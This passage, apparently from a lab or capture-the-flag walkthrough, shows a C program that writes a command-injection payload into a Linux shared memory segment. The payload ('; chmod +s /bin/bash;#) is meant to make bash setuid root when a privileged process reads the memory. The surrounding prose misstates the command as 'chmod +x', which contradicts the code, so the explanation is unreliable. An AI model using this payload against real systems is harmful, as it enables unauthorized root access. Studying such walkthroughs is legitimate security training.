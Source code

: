 With this let's craft a script that will write to the shared memory address a malicious command:

```c
#include <stdio.h>
#include <stdlib.h>
#include <sys/ipc.h>
#include <sys/shm.h>
#include <time.h>
#include <string.h>

#define SHM_SEGMENT_SIZE 0x400
#define SHM_PERMISSIONS  0666

void handle_error(const char *message) {
    perror(message);
    exit(EXIT_FAILURE);
}

int main(void) {
    srand((unsigned int)time(NULL));
    key_t shm_key = rand() % 0xfffff;
    printf("Key: 0x%X\n", shm_key);

    int shm_id = shmget(shm_key, SHM_SEGMENT_SIZE, IPC_CREAT | SHM_PERMISSIONS);
    if (shm_id == -1) {
        handle_error("shmget failed");
    }

    char *shared_memory_address = (char *)shmat(shm_id, NULL, 0);
    if (shared_memory_address == (char *)-1) {
        handle_error("shmat failed");
    }

    const char *payload_string = "Leaked hash detected at Sat Feb 22 23:21:48 2025 > '; chmod +s /bin/bash;#";
    snprintf(shared_memory_address, SHM_SEGMENT_SIZE, "%s", payload_string);

    printf("Content:\n%s\n", shared_memory_address);

    if (shmdt(shared_memory_address) == -1) {
        handle_error("shmdt failed");
    }

    return 0;
}
```

Notice the command it runs: `chmod +x /bin/bash` so we can execute bash as root.

Let's compile this code:

```
gcc reader.c
```
